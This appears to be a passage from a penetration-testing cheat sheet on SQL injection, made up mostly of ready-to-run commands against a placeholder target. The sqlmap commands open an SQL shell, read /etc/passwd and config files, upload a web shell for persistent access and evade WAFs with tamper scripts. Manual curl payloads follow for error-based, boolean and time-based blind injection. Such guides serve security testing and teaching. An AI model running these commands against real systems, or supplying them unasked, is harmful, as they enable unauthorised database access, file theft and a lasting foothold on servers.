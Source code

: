 ```bash

sqlmap -u "http://target.com/page.php?id=1" --sql-shell
# Interactive SQL shell
# Execute arbitrary SQL commands

sqlmap -u "http://target.com/page.php?id=1" --file-read="/etc/passwd"
# Read files from the server filesystem
# Common target files: /etc/passwd, config files

sqlmap -u "http://target.com/page.php?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"
# Write files to server filesystem
# Upload web shells for persistent access

# Authentication and session handling
sqlmap -u "http://target.com/page.php?id=1" --auth-type=basic --auth-cred="user:pass"
# HTTP Basic authentication
# Maintains authentication during testing

sqlmap -u "http://target.com/page.php?id=1" --cookie="session=abc123"
# Session cookie handling
# Maintains session state during testing

# Proxy and traffic routing
sqlmap -u "http://target.com/page.php?id=1" --proxy="http://127.0.0.1:8080"
# Route traffic through proxy (Burp Suite)
# Allows manual analysis of requests

# Custom injection testing
sqlmap -u "http://target.com/page.php?id=1" --tamper="space2comment,randomcase"
# Use tamper scripts for WAF evasion
# space2comment: Replace spaces with comments
# randomcase: Randomize keyword case

# Time-based blind injection optimization
sqlmap -u "http://target.com/page.php?id=1" --technique=T --time-sec=2
# Focus on time-based techniques
# Adjust timing for network conditions

# Batch processing and automation
sqlmap -u "http://target.com/page.php?id=1" --batch --answers="crack=N,dict=N"
# Non-interactive mode for automation
# Predefined answers to common questions
```

### **Manual SQL Injection Testing**

**Why manual testing is important:** Automated tools may miss context-specific injections, custom applications, or complex scenarios. Manual testing provides deeper understanding and coverage.

```bash
# Basic manual injection testing with curl
curl "http://target.com/page.php?id=1'"
# Test for error-based injection
# Look for database error messages

curl "http://target.com/page.php?id=1 AND 1=1"
curl "http://target.com/page.php?id=1 AND 1=2"
# Boolean-based blind injection testing
# Compare responses for true/false conditions

# Time-based blind injection testing
curl "http://target.com/page.php?id=1; WAITFOR DELAY '00:00:05'--"  # SQL Server
curl "http://target.com/page.php?id=1 AND SLEEP(5)--"              # MySQL
```